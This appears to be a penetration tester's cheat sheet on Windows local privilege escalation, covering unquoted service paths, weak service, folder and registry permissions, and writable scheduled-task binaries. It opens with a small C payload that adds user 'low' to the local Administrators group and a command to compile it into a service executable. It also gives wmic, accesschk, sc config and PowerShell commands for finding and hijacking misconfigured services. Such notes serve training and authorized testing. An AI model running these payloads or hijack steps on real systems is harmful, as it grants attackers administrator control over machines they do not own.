 
binary to put in service.exe

```
 cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
 int i;
 i=system ("net localgroup administrators low /add");
 return 0;
}
```
 to compile
 
 `i686-w64-mingw32-gcc -o weakservice.exe useradd.c`



Services

Find services running with elevated privileges. Two main categories of vulnerabilities:
	- Weak service path
	- Weak permissions

. . .

Unquoted Service Path

If a privileged service is running and pointing to an unquoted service path with spaces, then Windows has to guess where the executable file is. It guesses in this order:

C:\Services\My | Spaced Directory\Service.exe
C:\Services\My Spaced | Directory\Service.exe
C:\Services\My Spaced Directory\Service.exe

It assumes that each space, from left to right, is the dividing point between the executable and the arguments passed to that executable. So to exploit this situation, you could create a malicious executable and place it at the location below:

C:\Services\My.exe

To find services with spaces and without quotes, run the following CMD command:
wmic service get name,startname,startmode,pathname | findstr /i /v "c:\windows" | findstr /v """
Or try this alternative using regex:
wmic service get name,startname,startmode,pathname | findstr /r /c:"\\.* .*exe" | findstr /v """

. . .

Weak Permissions Around Service
	- Folder permissions -- replace executable
	- Service permissions -- change executable path and executing account
	- Registry permissions -- same through registry

Folder Permissions
To check folder permissions:
accesschk.exe -dv <username> <folder>

To exploit, replace the executable with a malicious one

Service Permissions
To check service permissions:
accesschk.exe -cv <username> <service_name>

To check current service config:
sc qc <service_name>

To modify service config:
sc config <service_name> binPath= "c:\path\to\malicious" obj= LocalSystem

Registry Permissions
Open regedit and navigate to:
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>

. . .

Scheduled Tasks

List scheduled tasks that aren't running as the current user:
get-scheduledtask | select * | where {$_.principal.userid -notlike "*$env:username*"} | format-table -property @{expression={$_.principal.userid}},taskpath,taskname,date

See what files are executed by a task (PowerShell):
$task = get-scheduledtask -taskname <task_name>
foreach ( $action in $task.actions ) { echo $action.execute }

Check permissions on those files:
accesschk.exe -v <username> <file>

If readable, then see what the executable is doing.
If writable, then replace with malicious.

. . .
